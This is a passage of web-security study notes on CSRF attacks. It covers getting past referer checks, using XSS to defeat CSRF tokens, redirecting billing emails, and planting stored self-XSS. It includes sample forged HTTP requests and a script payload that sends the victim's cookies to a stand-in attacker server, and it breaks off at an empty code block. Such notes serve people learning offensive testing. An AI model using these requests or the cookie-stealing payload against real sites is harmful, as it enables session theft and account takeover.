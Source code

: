 -  In this case, you can bypass the referer check by placing the victim domain name in the referer URL as a subdomain. You can achieve this by creating a subdomain named after the victim’s domain, and then hosting the malicious HTML on that subdomain, like:
```
POST /password_change
Host: email.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;
Referer: example.com.attacker.com

(POST request body)
new_password=abc123
```

- You can also try placing the victim domain name in the referer URL as a pathname. You can do so by creating a file with the name of the target’s domain and hosting your HTML page there, it will look like this: `Referer: attacker.com/example.com`

## Bypass CSRF Protection by Using XSS
any XSS vulnerability will defeat CSRF protections, because XSS will allow attackers to steal the legitimate CSRF token and then craft forged requests by using `XMLHttpRequest`.
Often, attackers will find XSS as the starting point to launch CSRFs to take over admin accounts.

# Escalating the Attack
## Leak User Information by Using CSRF
Applications often send or disclose information according to user preferences
let’s say the `example.com` web application sends monthly billing emails to a user email address.
so if it's vulnerable to CSRF we can change these emails to ours and the app will send the billing information to us instead of the user, the following request will make it clear
```
POST /change_billing_email
Host: example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE;

(POST request body)
email=ATTACKER_EMAIL&csrf_token=
```
## Create Stored Self-XSS by Using CSRF
let’s say that `example.com`’s financial subdomain, finance .example.com, gives users the ability to create nicknames for each of their linked bank accounts. The account nickname field is vulnerable to self-XSS: there is no sanitization, validation, or escaping for user input on the field. However, only the user can edit and see this field, so there is no way for an attacker to trigger the XSS directly.
However, the endpoint used to change the account nicknames is vulnerable to CSRF.
The application doesn’t properly validate the existence of the CSRF token
```
POST /change_account_nickname
Host: finance.example.com
Cookie: session_cookie=YOUR_SESSION_COOKIE

(POST request body)
account=0
&nickname="<script>document.location='http://attacker_server_ip/
cookie_stealer.php?c='+document.cookie;</script>"
```
This request will change the user’s account nickname and store the XSS payload there. The next time a user logs into the account and views their dashboard, they’ll trigger the XSS
## Take Over User Accounts by Using CSRF
Sometimes CSRF can even lead to account takeover, this happen if the CSRF occurs on high impact endpoint like 
```
```